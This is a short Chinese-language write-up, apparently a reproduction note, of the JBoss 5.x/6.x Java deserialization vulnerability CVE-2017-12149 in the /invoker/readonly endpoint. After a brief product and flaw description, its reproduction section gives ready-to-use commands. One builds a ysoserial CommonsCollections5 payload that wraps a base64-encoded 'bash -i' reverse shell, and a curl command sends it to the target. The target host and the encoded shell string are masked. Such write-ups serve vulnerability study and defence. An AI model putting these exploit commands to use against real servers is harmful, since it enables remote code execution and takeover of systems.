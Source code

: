 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

## jboss介绍：

JBoss 是一个基于J2EE的[开放源代码](https://baike.baidu.com/item/开放源代码/114160)的[应用服务器](https://baike.baidu.com/item/应用服务器/4971773)。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用。JBoss是一个管理EJB的容器和服务器，支持EJB 1.1、EJB  2.0和EJB3的规范。但JBoss核心服务不包括支持servlet/JSP的WEB容器，一般与Tomcat或Jetty绑定使用。

## 漏洞介绍:

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

## 漏洞分析：

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![image-20210401130731439](1.png)

## 漏洞复现：

java 反弹shellhttp://www.jackson-t.ca/runtime-exec-payloads.html

**生成exp**

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,xxxxx}|{base64,-d}|{bash,-i}" > poc.ser
```

**通过curl发送**

```curl
curl http://xxxx:8080/invoker/readonly  --data-binary @poc.ser
```

